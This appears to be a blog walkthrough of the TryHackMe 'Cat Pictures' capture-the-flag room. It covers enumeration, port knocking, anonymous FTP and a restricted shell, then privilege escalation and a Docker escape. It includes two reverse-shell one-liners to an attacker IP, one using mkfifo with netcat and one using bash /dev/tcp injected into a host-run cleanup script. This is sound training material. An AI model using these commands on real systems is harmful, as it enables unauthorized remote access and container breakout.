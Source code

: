 ```yaml
---
title: Cat Pictures
date: 2021-09-07 12:00:00
categories: [CTF, TryHackMe]
tags: [docker,port-knocking]     # TAG names should always be lowercase
image: 
    path: /assets/cat-pictures/cropcat.jpeg
---
```

Link to room: [Cat Pictures](https://tryhackme.com/room/catpictures) 

## Enumeration

Our initial run of `nmap` gives us a small attack surface:

```console 
┌──(user㉿kali-linux-2022-2)-[~]
└─$ nmap -sC -sV 10.10.94.199
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 20:08 EDT
Nmap scan report for 10.10.94.199
Host is up (0.087s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.89 seconds
```

## Port Knocking

Visiting the site on `8080` we find a phpBB instance with one message containing a not-so-subtle hint that we’ll need to use port-knocking. 

![Screenshot 2023-08-06 at 8.18.16 PM.png](/assets/cat-pictures/php.png)

We `apt install knockd` to get the `knock` client and call it with the “magic numbers” provided:

`knock 10.10.94.199 1111 2222 3333 4444`

## Initial Access

Running `nmap` again after knocknig we find an ftp site that allows anonymous login:

```console
└─$ nmap -sC -sV 10.10.94.199                                                                           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 20:18 EDT
Nmap scan report for 10.10.94.199
Host is up (0.087s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.1.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           162 Apr 02  2021 note.txt
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Cat Pictures - Index page
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Logging in to the ftp site as anonymous yields one file, `note.txt` with a clue about how to move forward. 

```console
┌──(user㉿kali-linux-2022-2)-[~]
└─$ cat note.txt
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is [redacted].
- catlover
```

If we try to `ssh` to port 4420 it won’t connect, so we’ll use netcat to make a plain TCP connection. With the credentials supplied above we land in a heavily restricted shell.

```console
┌──(user㉿kali-linux-2022-2)-[~]
└─$ nc 10.10.94.199 4420
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password: [redacted]
Password accepted
```


## Escalation #1

Enumerating a bit we find there is almost nothing to look at, except for one file `runme` in our catlover’s directory. We have permissions to files in this directory so we assume that our account is catlover. 

```bash
ls -la /home/catlover
total 28
drwxr-xr-x 2 0 0  4096 Apr  3  2021 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
```
{: .nolineno }

We can’t run or even examine this file with our current shell……..

```console
runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.

cat runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.
```

so it’s time to upgrade by starting a new listener and call it with  `rm -f /tmp/b; mkfifo /tmp/b; /bin/sh -i 2>&1 0</tmp/b | nc 10.6.1.1 4445 1>/tmp/b`

Back in our new shell we return to examine `runme`. The `strings` command isn’t available in our shell. We could download the file and inspect it locally but it’s not too large so we’ll just use `cat` to see what we can see.  `cat runme`

![runme](/assets/cat-pictures/Screenshot.png)


Scanning a bit we quickly find the string table near the beginning of the binary, and one string in particular that looks like a password.

Executing `runme` with the proper password drops an ssh key in home folder.

```console
# ./runme
Please enter yout password: [redacted]
Welcome, catlover! SSH key transfer queued!
```

We can download this key to our attacker machine or just copy and paste it into a new file. We’ll need to change permissions on the key before we use it: 

`chmod 600 id_rsa`

And we can SSH into the box with `ssh -i id_rsa [catlover@10.10.94.199](mailto:catlover@10.10.94.199)`

## Escalation #2

We find ourselves in a Docker container. We’ve achieved root access, but only retrieved the first flag. Clearly the second flag is on the Docker host machine. 

#### 🐰 Rabbit Hole: Enumerate MariaDB

We find database credentials for MariaDB in the phpBB configuration file. We should enumerate while we’re here. 

`mysql --host mariadb --user=bn_phpbb --password bitnami_phpbb`

Searching through the DB we find the schema for the forum and a test schema. We inspect tables for users, posts, private messages ans drafts but find nothing of value. The database engine is running on a different IP than we are, so we run `system` commands to examine that environment, but this does not lead us out of Docker. 

### Escape the Docker Container

We have a script `clean.sh` in `/opt/clean` . Using `mount` we determine that this folder is mounted from the host OS.

```console
(remote) root@7546fa2336d6:/opt/clean# mount
[...]
/dev/xvda1 on /bitnami/phpbb type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /opt/clean type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro,data=ordered)
[...]
(remote) root@7546fa2336d6:/opt/clean#
```

#### 🐰 Rabbit Hole: Two Shells scenario

We have a shell inside and outside of the container, and there are some exploits in this scenario [as documented on HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells-and-host-mount). Unfortunately our host shell does not have access to the shared mount point to execute scenario #1, and we can’t run `ps` to execute scenario #2.  

Turning our attention back to `clean.sh` we note that it simply empties the `/tmp` directory. 

```bash
#!/bin/bash

rm -rf /tmp/*
```
{: .nolineno }

Adding a file to our local `/tmp` directory and waiting just a few minutes (this is a CTF after all…) we see that the `clean.sh` script isn’t executing against our filesystem in the container. If it’s being called on the host side, this would be a path to escape the container. 

Let’s try sticking a reverse shell in there just in case:

`echo "bash -i >& /dev/tcp/10.6.1.1/4446 0>&1" > clean.sh`

Waiting another minute or two rewards us with a shell triggered by root on the docker host. We find our second flag at `/root` as usual. 

Thanks go out to [gamercat](https://tryhackme.com/p/gamercat) for a fun box!